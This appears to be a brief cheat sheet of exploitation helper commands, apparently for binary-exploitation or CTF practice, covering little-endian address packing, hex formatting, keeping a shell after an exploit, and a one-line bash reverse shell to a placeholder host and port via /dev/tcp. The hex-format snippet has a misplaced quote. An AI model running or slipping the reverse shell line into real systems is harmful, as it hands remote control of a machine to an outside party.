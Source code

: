 
# Useful Scripts & Commands 🧰

## Commands:

### Python 

1. Print an address in little endian:
`python -c "import struct; print(struct.pack('<I',0xdeadbeef))"`
2. Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`


### Bash

1. Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
2. Simple Bash revshell: `bash -i >& /dev/tcp/{host_ip}/{port} 0>&1`
